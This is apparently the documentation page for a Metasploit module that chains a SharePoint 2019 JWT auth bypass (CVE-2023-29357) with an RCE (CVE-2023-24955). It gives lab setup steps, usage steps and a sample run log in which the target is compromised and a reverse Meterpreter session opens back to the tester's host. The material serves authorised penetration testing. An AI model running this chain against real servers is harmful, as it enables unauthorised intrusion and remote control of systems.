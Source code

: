 ## Vulnerable Application
This module exploits two vulnerabilities in Sharepoint 2019, an auth bypass CVE-2023-29357 which was patched
in June of 2023 and CVE-2023-24955, an RCE which was patched in May of 2023.

The auth bypass allows attackers to impersonate the Sharepoint admin user. This vulnerability stems from the
signature validation check used to verify JSON Web Tokens (JWTs) used for OAuth authentication. If the signing
algorithm of the user-provided JWT is set to none, SharePoint skips the signature validation step due to a logic
flaw in the ReadTokenCore() method.

After impersonating the administrator user, the attacker has access to the Sharepoint API and is able to
exploit CVE-2023-24955. This authenticated RCE vulnerability leverages the impersonated privileged account to
replace the "/BusinessDataMetadataCatalog/BDCMetadata.bdcm" file in the webroot directory with a payload. The
payload is then compiled and executed by Sharepoint allowing attackers to remotely execute commands via the API.

### Setup 
Setup Windows Server 2022  [20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso](https://software-download.microsoft.com/download/sg/20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso).
Change the computer name to "sp1".
In network connections set the IP address of the machine to a static IP on the appropriate interface.
Set the DNS settings - one to the hardcoded address of the machine and the alternate to 8.8.8.8.
Add the AD DS role to the Server and then promote to a domain controller, use all the default settings. Name the domain "domain.local".
Download and install [SQL Server 2022](https://go.microsoft.com/fwlink/?linkid=2215202&clcid=0x409&culture=en-us&country=us) with all default settings.
Download [Sharepoint 2019 image](https://download.microsoft.com/download/C/B/A/CBA01793-1C8A-4671-BE0D-38C9E5BBD0E9/officeserver.img).

Mount the image on the newly configured Domain Controller.
Before installing the prerequisites you must go to Server Manager -> Local Server -> IE Enhanced Security Configuration -> Set to OFF
The prerequisites installer will fail to download prereqs without this.

Run the splash.hta file, then select Install Prerequisites, this will reboot the machine.
Remount the installer and rerun the PrerequisitesInstaller.exe. Once complete for the second time, click finish, this will reboot the machine.
Remount the installer and run setup.exe, this will install all the necessary binaries, this will reboot the machine

The SharePoint Products Configuration Wizard should launch automatically, if not you can launch it from the start menu.
Click next on the Welcome to Sharepoint Products page. It will tell you that it may have to reboot the machine, click Yes.
Select "Create a new server farm", click Next.

Input the following:
Database server: sp1
Database name: SharePoint_Config
Username: DOMAIN\\Administrator
Password: N0tpassword!

Click Next.

Specify Farm Security Settings:
Enter and reenter a passphrase:

Click Next.

Specify Server Role:
Single-Server Farm

Click Next.

Configure SharePoint Central Administration Web Application
No changes here, keep the port number default and keep NTLM selected,

Click Next.

You should now have a vulnerable version of SharePoint 2019 installed.

## Verification Steps

1. Start msfconsole
1. Do: `use sharepoint_dynamic_proxy_generator_auth_bypass_rce`
1. Set the `RHOST`, `LHOST`, and `HOSTNAME` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the SharePoint application.

## Scenarios
### SharePoint 2019 
```
msf6 exploit(windows/http/sharepoint_dynamic_proxy_generator_auth_bypass_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sharepoint version detected: 16.0.0.10337
[*] Discovered hostname is: sp1
[*] realm: 1a150b01-299a-48a9-afd4-379402fff4de, client_id: 00000003-0000-0ff1-ce00-000000000000
[*] Got Oauth Info: 1a150b01-299a-48a9-afd4-379402fff4de|00000003-0000-0ff1-ce00-000000000000
[*] Lob id is: XafKHq
[*] Successfully impersonated Site Admin: 00000003-0000-0ff1-ce00-000000000000
[+] The target is vulnerable. Authentication was successfully bypassed via CVE-2023-29357 indicating this target is vulnerable to RCE via CVE-2023-24955.
[*] BDCMetadata file already present on the remote host, backing it up.
[+] Stored the original BDCMetadata.bdcm file in loot before overwriting it with the payload: /Users/jheysel/.msf4/loot/20240206152102_default_172.16.199.72_sharepoint.confi_163878.txt
[+] Payload has been successfully delivered
[*] Sending stage (200774 bytes) to 172.16.199.72
[+] BDCMetadata.bdcm has been successfully restored to it's original state.
[*] Meterpreter session 4 opened (172.16.199.1:4444 -> 172.16.199.72:51458) at 2024-02-06 15:21:04 -0500

meterpreter > getuid
Server username: DOMAIN\Administrator
meterpreter > sysinfo
Computer        : SP1
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : DOMAIN
Logged On Users : 20
Meterpreter     : x64/windows
meterpreter >
```